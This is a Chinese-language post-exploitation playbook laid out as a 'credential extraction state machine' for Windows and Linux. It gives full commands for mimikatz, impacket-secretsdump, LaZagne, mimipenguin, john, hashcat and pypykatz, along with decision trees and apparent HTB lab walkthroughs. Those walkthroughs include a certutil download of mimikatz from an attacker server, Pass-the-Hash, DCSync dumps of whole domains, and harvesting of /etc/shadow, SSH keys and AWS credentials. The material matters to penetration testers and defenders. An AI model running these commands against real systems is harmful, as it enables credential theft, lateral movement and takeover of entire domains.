


# 凭据提取状态机 (Credential Extraction State Machine)

## 概述

凭据提取是后渗透阶段的核心任务，目标是从已控制的系统中提取密码、哈希、票据等认证凭据，用于横向移动和权限维持。本状态机覆盖 Windows 和 Linux 两大平台的凭据提取技术。

---

## 原子工具状态映射

### 1. mimikatz - Windows 凭据提取之王

**能干什么**：
从 Windows 内存中提取明文密码、NTLM 哈希、Kerberos 票据，还能进行 Pass-the-Hash、Golden Ticket 等高级攻击。

**触发状态**：
- 获得 Windows SYSTEM 或管理员权限
- 需要提取域用户凭据
- 需要进行横向移动

**核心参数**：
```powershell
# 提升到 Debug 权限
privilege::debug

# 提取所有凭据（明文密码 + 哈希）
sekurlsa::logonpasswords

# 只提取 NTLM 哈希
sekurlsa::msv

# 提取 Kerberos 票据
sekurlsa::tickets

# 导出所有票据到文件
sekurlsa::tickets /export

# Pass-the-Hash
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:aad3b435b51404eeaad3b435b51404ee

# 提取 SAM 数据库（本地用户）
lsadump::sam

# 提取域控 NTDS.dit
lsadump::dcsync /user:Administrator /domain:corp.local
```

**实战直觉**：
- Windows 10 1803+ 默认禁用 WDigest，无法提取明文密码（除非手动启用）
- `privilege::debug` 失败？说明没有 SeDebugPrivilege 权限
- `sekurlsa::logonpasswords` 是最常用的命令，一次性提取所有凭据
- 域控上运行 `lsadump::dcsync` 可以远程提取任何域用户的哈希
- 提取的票据可以用 `kerberos::ptt` 注入到当前会话

**状态转移**：
```
提取到明文密码 → 直接登录其他系统
提取到 NTLM 哈希 → Pass-the-Hash 攻击
提取到 Kerberos 票据 → Pass-the-Ticket 攻击
提取到域管哈希 → Golden Ticket 攻击
提取失败（权限不足）→ 提升到 SYSTEM 权限
```

---

### 2. impacket-secretsdump - 离线凭据提取

**能干什么**：
从 Windows 系统中提取 SAM、LSA、NTDS.dit 等数据库的凭据，支持本地和远程提取，无需在目标机器上运行代码。

**触发状态**：
- 无法在目标机器上运行 mimikatz（AV 拦截）
- 需要远程提取凭据
- 已获得域管权限，需要提取整个域的凭据

**核心参数**：
```bash
# 远程提取 SAM（需要管理员权限）
impacket-secretsdump 'DOMAIN/user:password@10.10.10.10'

# 使用 NTLM 哈希认证
impacket-secretsdump -hashes :aad3b435b51404eeaad3b435b51404ee 'DOMAIN/Administrator@10.10.10.10'

# 提取域控 NTDS.dit（DCSync）
impacket-secretsdump -just-dc 'DOMAIN/Administrator:password@dc.corp.local'

# 只提取 NTLM 哈希（不提取 Kerberos 密钥）
impacket-secretsdump -just-dc-ntlm 'DOMAIN/Administrator:password@dc.corp.local'

# 从本地文件提取（已导出 SAM/SYSTEM/NTDS）
impacket-secretsdump -sam SAM.save -system SYSTEM.save LOCAL

# 从 NTDS.dit 提取
impacket-secretsdump -ntds ntds.dit -system SYSTEM.save LOCAL
```

**实战直觉**：
- 比 mimikatz 更隐蔽，不需要在目标机器上运行
- `-just-dc` 使用 DCSync 技术，模拟域控复制，无需登录域控
- 输出格式：`username:uid:lm_hash:ntlm_hash:::`
- 提取的哈希可以直接用于 Pass-the-Hash

**状态转移**：
```
成功提取凭据 → 使用哈希进行横向移动
提取失败（权限不足）→ 提升权限或使用其他方法
提取到域管哈希 → 控制整个域
```

---

### 3. LaZagne - 跨平台密码提取

**能干什么**：
从浏览器、邮件客户端、数据库、WiFi、FTP 等 100+ 应用中提取保存的明文密码。

**触发状态**：
- 需要提取应用程序保存的密码
- mimikatz 无法提取到有用的凭据
- 需要快速收集所有可能的密码

**核心参数**：
```bash
# 提取所有密码
laZagne.exe all

# 只提取浏览器密码
laZagne.exe browsers

# 只提取 WiFi 密码
laZagne.exe wifi

# 输出到文件
laZagne.exe all -oN output.txt

# 详细输出
laZagne.exe all -v
```

**实战直觉**：
- 支持 Windows、Linux、macOS 三大平台
- 浏览器密码是最常见的收获（Chrome、Firefox、Edge）
- WiFi 密码可以用于内网横向移动
- 数据库密码可能包含高权限账户

**状态转移**：
```
提取到浏览器密码 → 尝试登录 Web 应用
提取到 WiFi 密码 → 连接其他网络
提取到数据库密码 → 访问数据库
提取到邮件密码 → 读取邮件寻找敏感信息
```

---

### 4. mimipenguin - Linux 内存密码提取

**能干什么**：
从 Linux 系统内存中提取当前登录用户的明文密码。

**触发状态**：
- 获得 Linux root 权限
- 需要提取用户的明文密码
- 目标用户正在登录状态

**核心参数**：
```bash
# 基础提取
sudo ./mimipenguin.sh

# Python 版本
sudo python3 mimipenguin.py

# 指定进程
sudo ./mimipenguin.sh --process gnome-keyring-daemon
```

**实战直觉**：
- 只能提取当前登录用户的密码
- 用户必须在登录状态（内存中有密码）
- 支持 GNOME、KDE、XFCE 等桌面环境
- 成功率取决于桌面环境和登录方式

**状态转移**：
```
提取到明文密码 → SSH 到其他主机
提取失败 → 使用 /etc/shadow 破解哈希
```

---

### 5. john - 密码哈希破解

**能干什么**：
破解各种格式的密码哈希，包括 NTLM、MD5、SHA、bcrypt 等，支持字典攻击和暴力破解。

**触发状态**：
- 提取到密码哈希但无法直接使用
- 需要获得明文密码
- 有合适的字典文件

**核心参数**：
```bash
# 自动检测格式并破解
john hashes.txt

# 指定字典文件
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# 指定哈希格式
john --format=NT hashes.txt

# 使用规则增强字典
john --wordlist=dict.txt --rules hashes.txt

# 显示已破解的密码
john --show hashes.txt

# 破解 Linux /etc/shadow
unshadow /etc/passwd /etc/shadow > unshadowed.txt
john unshadowed.txt

# 破解 Windows NTLM（从 secretsdump 输出）
john --format=NT ntlm_hashes.txt
```

**实战直觉**：
- rockyou.txt 是最常用的字典（1400 万密码）
- 弱密码通常几分钟内破解
- 强密码可能需要几天甚至几年
- 使用 `--rules` 可以大幅提高成功率

**状态转移**：
```
破解成功 → 使用明文密码登录
破解失败 → 尝试 Pass-the-Hash
破解时间过长 → 使用其他攻击向量
```

---

### 6. hashcat - GPU 加速密码破解

**能干什么**：
使用 GPU 加速破解密码哈希，速度比 john 快 10-100 倍，支持更多哈希格式。

**触发状态**：
- john 破解速度太慢
- 有 GPU 资源可用
- 需要破解复杂密码

**核心参数**：
```bash
# 字典攻击（NTLM）
hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# 字典 + 规则
hashcat -m 1000 -a 0 hashes.txt dict.txt -r /usr/share/hashcat/rules/best64.rule

# 掩码攻击（8 位数字密码）
hashcat -m 1000 -a 3 hashes.txt ?d?d?d?d?d?d?d?d

# 组合攻击
hashcat -m 1000 -a 1 hashes.txt dict1.txt dict2.txt

# 显示已破解的密码
hashcat -m 1000 hashes.txt --show

# 常见哈希模式
# -m 0    = MD5
# -m 100  = SHA1
# -m 1000 = NTLM
# -m 1800 = sha512crypt (Linux)
# -m 3200 = bcrypt
# -m 13100 = Kerberos 5 TGS-REP
```

**实战直觉**：
- GPU 破解速度是 CPU 的 10-100 倍
- 掩码攻击适合已知密码格式（如 8 位数字）
- best64.rule 是最常用的规则集
- 破解 NTLM 比破解 bcrypt 快得多

**状态转移**：
```
破解成功 → 使用明文密码登录
破解失败 → 尝试其他攻击向量
```

---

### 7. pypykatz - Python 版 mimikatz

**能干什么**：
纯 Python 实现的 mimikatz，可以解析 LSASS dump 文件，无需在目标机器上运行。

**触发状态**：
- 无法在目标机器上运行 mimikatz
- 已导出 LSASS 进程内存
- 需要离线分析凭据

**核心参数**：
```bash
# 解析 LSASS dump 文件
pypykatz lsa minidump lsass.dmp

# 从注册表提取凭据
pypykatz registry --sam SAM --system SYSTEM

# 解析 NTDS.dit
pypykatz ntds ntds.dit -s SYSTEM
```

**实战直觉**：
- 适合离线分析，不触发 AV
- 需要先导出 LSASS 内存（使用 procdump 或 Task Manager）
- 输出格式与 mimikatz 类似

**状态转移**：
```
成功提取凭据 → 使用凭据进行横向移动
提取失败 → 检查 dump 文件完整性
```

---

## 聚类攻击状态机

### Windows 凭据提取决策流程

```
获得 Windows 管理员/SYSTEM 权限
    ↓
IF 可以在目标机器上运行代码:
    THEN 上传 mimikatz.exe
        执行 privilege::debug
        IF 成功:
            THEN 执行 sekurlsa::logonpasswords
                IF 提取到明文密码:
                    THEN 直接登录其他系统 → 横向移动
                ELSE IF 提取到 NTLM 哈希:
                    THEN Pass-the-Hash 攻击 → 横向移动
                ELSE IF 提取到 Kerberos 票据:
                    THEN Pass-the-Ticket 攻击 → 横向移动
        ELSE:
            THEN 提升到 SYSTEM 权限 → 重试

ELSE IF 无法运行代码（AV 拦截）:
    THEN 使用 impacket-secretsdump 远程提取
        IF 有域管权限:
            THEN secretsdump -just-dc → 提取整个域
        ELSE:
            THEN secretsdump → 提取本地 SAM

IF 提取到的凭据无法直接使用:
    THEN 运行 LaZagne 提取应用密码
        IF 提取到浏览器/数据库密码:
            THEN 尝试登录对应服务

IF 只有哈希没有明文:
    THEN 判断是否需要明文密码
        IF 需要明文:
            THEN 使用 hashcat GPU 破解
                IF 破解成功:
                    THEN 使用明文密码登录
                ELSE:
                    THEN Pass-the-Hash 攻击
        ELSE:
            THEN 直接 Pass-the-Hash

IF 在域环境中:
    THEN 检查是否有域管权限
        IF 有域管权限:
            THEN lsadump::dcsync → 提取所有域用户哈希
                → Golden Ticket 攻击
        ELSE:
            THEN 继续横向移动寻找域管
```

---

### Linux 凭据提取决策流程

```
获得 Linux root 权限
    ↓
IF 有用户正在登录:
    THEN 运行 mimipenguin
        IF 提取到明文密码:
            THEN SSH 到其他主机 → 横向移动
        ELSE:
            THEN 转向其他方法

提取 /etc/shadow 文件
    ↓
使用 unshadow 合并 passwd 和 shadow
    ↓
IF 有 GPU 资源:
    THEN 使用 hashcat 破解
        hashcat -m 1800 -a 0 unshadowed.txt rockyou.txt
ELSE:
    THEN 使用 john 破解
        john --wordlist=rockyou.txt unshadowed.txt

IF 破解成功:
    THEN 使用明文密码登录其他系统

查找 SSH 私钥
    ↓
find /home -name id_rsa 2>/dev/null
find /root/.ssh -name id_rsa 2>/dev/null
    ↓
IF 发现私钥:
    THEN 检查是否有密码保护
        IF 无密码:
            THEN 直接使用私钥 SSH 登录
        ELSE:
            THEN 使用 ssh2john 转换 → john 破解

查找应用配置文件
    ↓
grep -r "password" /var/www /opt /etc 2>/dev/null
    ↓
IF 发现明文密码:
    THEN 尝试登录对应服务（数据库、Web 应用）

查找浏览器密码
    ↓
find /home -name "Login Data" 2>/dev/null  # Chrome
find /home -name "logins.json" 2>/dev/null  # Firefox
    ↓
IF 发现浏览器数据库:
    THEN 使用 LaZagne 或手动提取
```

---

## 场景决策链路

### 场景 1：HTB 靶机 Windows 凭据提取

**初始状态**：
- 目标：HTB 靶机 "Active"
- 已获得：SYSTEM 权限
- 目标：提取域用户凭据进行横向移动

**状态机运行路径**：

1. **上传 mimikatz**
```powershell
# 攻击机
python3 -m http.server 8000

# 目标机
certutil -urlcache -f http://10.10.14.5:8000/mimikatz.exe mimi.exe
```

2. **提取凭据**
```powershell
.\mimi.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 996
Session           : Service from 0
User Name         : SVC_TGS
Domain            : ACTIVE
Logon Server      : DC
Logon Time        : 3/22/2026 10:15:23 AM
SID               : S-1-5-21-...
        msv :
         [00000003] Primary
         * Username : SVC_TGS
         * Domain   : ACTIVE
         * NTLM     : 4d3e99a654f8e4b7e1c8f5a2b3c4d5e6
```

**内化点**：提取到域用户 SVC_TGS 的 NTLM 哈希。

3. **Pass-the-Hash 攻击**
```bash
# 攻击机
impacket-psexec -hashes :4d3e99a654f8e4b7e1c8f5a2b3c4d5e6 'ACTIVE/SVC_TGS@10.10.10.100'
```

**结果**：成功横向移动到其他主机

**内化点**：
- SYSTEM 权限 + mimikatz = 提取所有登录用户凭据
- NTLM 哈希可以直接用于 Pass-the-Hash，无需破解
- 为什么不破解哈希？因为 Pass-the-Hash 更快更直接

---

### 场景 2：HTB 靶机 Linux 密码破解

**初始状态**：
- 目标：HTB 靶机 "Lame"
- 已获得：root 权限
- 目标：提取用户密码用于其他系统

**状态机运行路径**：

1. **提取 shadow 文件**
```bash
cat /etc/shadow
root:$6$xyz...:18000:0:99999:7:::
user:$6$abc...:18000:0:99999:7:::
```

2. **合并 passwd 和 shadow**
```bash
unshadow /etc/passwd /etc/shadow > unshadowed.txt
```

3. **使用 john 破解**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

Loaded 2 password hashes with 2 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (user)
1g 0:00:00:15 DONE (2026-03-22 10:30) 0.06g/s 1234p/s 1234c/s 1234C/s
```

**内化点**：user 的密码是 password123，弱密码很快破解。

4. **使用密码登录其他系统**
```bash
ssh user@10.10.10.200
# 使用 password123 登录成功
```

**结果**：成功横向移动

**内化点**：
- Linux 密码哈希（sha512crypt）比 Windows NTLM 更难破解
- 弱密码通常几分钟内破解
- 为什么不用 mimipenguin？因为没有用户在登录状态

---

### 场景 3：域控 DCSync 攻击

**初始状态**：
- 目标：企业域环境
- 已获得：域管理员权限
- 目标：提取整个域的用户哈希

**状态机运行路径**：

1. **使用 mimikatz DCSync**
```powershell
mimikatz # lsadump::dcsync /user:Administrator /domain:corp.local
Object RDN           : Administrator
SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Object Security ID   : S-1-5-21-...
Object Relative ID   : 500

Credentials:
  Hash NTLM: aad3b435b51404eeaad3b435b51404ee
```

**内化点**：DCSync 模拟域控复制，无需登录域控即可提取凭据。

2. **提取所有域用户**
```bash
# 或使用 impacket-secretsdump
impacket-secretsdump -just-dc 'corp.local/Administrator:password@dc.corp.local' > domain_hashes.txt
```

3. **分析提取的哈希**
```bash
cat domain_hashes.txt | grep "Administrator\|Domain Admins"
```

4. **使用哈希进行横向移动**
```bash
# Pass-the-Hash 到任意域内主机
impacket-psexec -hashes :aad3b435b51404eeaad3b435b51404ee 'corp.local/Administrator@10.10.10.50'
```

**结果**：完全控制整个域

**内化点**：
- 域管权限 + DCSync = 提取整个域的凭据
- 无需登录域控，更隐蔽
- 为什么不用 mimikatz 在域控上运行？因为 DCSync 更安全，不触发域控的 AV

---

## 思维判定流程图

### Windows 凭据提取流程图



---

### Linux 凭据提取流程图



---

## 工具选择决策表

| 场景 | 首选工具 | 备选工具 | 选择理由 |
|------|---------|---------|---------|
| **Windows 内存提取** | mimikatz | pypykatz | mimikatz 功能最全 |
| **Windows 远程提取** | impacket-secretsdump | netexec | 无需在目标运行代码 |
| **Windows 应用密码** | LaZagne | 手动提取 | 支持 100+ 应用 |
| **Linux 内存提取** | mimipenguin | 手动搜索 | 自动化提取 |
| **密码哈希破解** | hashcat | john | GPU 加速更快 |
| **域控凭据提取** | DCSync | 登录域控提取 | 更隐蔽安全 |
| **离线分析** | pypykatz | mimikatz | 纯 Python 跨平台 |

---

## 常见凭据位置速查

### Windows 凭据位置

| 位置 | 内容 | 提取工具 |
|------|------|---------|
| LSASS 进程内存 | 明文密码、NTLM、Kerberos | mimikatz |
| SAM 数据库 | 本地用户哈希 | secretsdump |
| NTDS.dit | 域用户哈希 | secretsdump |
| LSA Secrets | 服务账户密码 | mimikatz |
| Credential Manager | 保存的凭据 | mimikatz |
| 浏览器 | 网站密码 | LaZagne |
| WiFi 配置 | WiFi 密码 | LaZagne |
| 注册表 | 自动登录密码 | reg query |

### Linux 凭据位置

| 位置 | 内容 | 提取工具 |
|------|------|---------|
| /etc/shadow | 用户密码哈希 | john/hashcat |
| ~/.ssh/id_rsa | SSH 私钥 | 直接复制 |
| ~/.bash_history | 历史命令（可能含密码） | grep |
| /var/www | Web 应用配置 | grep |
| ~/.mozilla | Firefox 密码 | LaZagne |
| ~/.config/google-chrome | Chrome 密码 | LaZagne |
| /etc/NetworkManager | WiFi 密码 | grep |
| ~/.aws/credentials | AWS 密钥 | cat |

---

## 凭据提取后的下一步

```
成功提取凭据
    ↓
    ├─ 明文密码:
    │   ├─ 登录其他系统（SSH、RDP、Web）
    │   ├─ 尝试密码重用
    │   └─ 记录到凭据库
    │
    ├─ NTLM 哈希:
    │   ├─ Pass-the-Hash 横向移动
    │   ├─ 破解获得明文（可选）
    │   └─ 用于 Golden Ticket
    │
    ├─ Kerberos 票据:
    │   ├─ Pass-the-Ticket 攻击
    │   ├─ 提取票据中的哈希
    │   └─ Golden/Silver Ticket
    │
    ├─ SSH 私钥:
    │   ├─ 直接 SSH 登录
    │   ├─ 破解密码保护（如有）
    │   └─ 查找对应的主机
    │
    └─ 应用密码:
        ├─ 登录数据库
        ├─ 登录 Web 应用
        ├─ 登录邮件系统
        └─ 查找更多敏感信息
```

---

*文档生成时间：2026-03-22*
*状态机类型：凭据提取*
*覆盖平台：Windows + Linux*
